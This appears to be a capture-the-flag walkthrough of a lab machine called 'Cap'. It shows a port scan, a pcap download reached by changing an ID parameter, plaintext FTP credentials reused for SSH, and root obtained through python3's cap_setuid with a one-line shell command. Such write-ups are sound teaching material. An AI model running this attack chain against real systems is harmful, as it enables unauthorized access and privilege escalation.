

# Cap

First, we conduct an Nmap scan:

```
nmap -Pn -sS -sV -p- 10.129.8.246
```

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -Pn -sS -sV -p- 10.129.8.246
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org) ) at 2026-05-31 10:39 EDT
Nmap scan report for 10.129.8.246
Host is up (0.035s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 33.06 seconds
```

Next, we examine the webpage. Once we head to the "Security Snapshot" section, we can see that we can download recent packet captures. If we change the packet capture ID manually to 0, we can download the earliest packet capture recorded:


When we examine this `pcap` file using Wireshark and filter for the FTP traffic, we can see that a username and password were sent in plaintext:



Now, we can log into the FTP server using the discovered credentials and obtain the user flag:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ ftp 10.129.8.246 21
Connected to 10.129.8.246.
220 (vsFTPd 3.0.3)
Name (10.129.8.246:kali): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32134|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 May 31 14:27 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||34822|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |***********************************************************************|    33      322.26 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (1.13 KiB/s)
ftp> 
```

Now, we can check if these credentials also work on the SSH server:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ ssh nathan@10.129.8.246                          
The authenticity of host '10.129.8.246 (10.129.8.246)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.8.246' (ED25519) to the list of known hosts.
nathan@10.129.8.246's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
 * Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
 * Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)

  System information as of Sun May 31 15:46:04 UTC 2026

  System load:           0.0
  Usage of /:            36.7% of 8.73GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             225
  Users logged in:       0
  IPv4 address for eth0: 10.129.8.246
  IPv6 address for eth0: dead:beef::a0de:adff:fe37:c92f

  => There are 3 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   [https://ubuntu.com/blog/microk8s-memory-optimisation](https://ubuntu.com/blog/microk8s-memory-optimisation)

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ whoami
nathan
nathan@cap:~$ hostname
cap
nathan@cap:~$ 
```

Next, we can check if there are any interesting binaries with capabilities enabled:

```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

We can see that the `python3` binary has the `cap_setuid` capability enabled. According to the reference at https://gtfobins.org/gtfobins/python/#shell, we can spawn an elevated shell by simply executing `python3 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'`:

```
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'
# whoami
root
# hostname
cap
# 
```

Now we can read the root flag located in the root's home directory.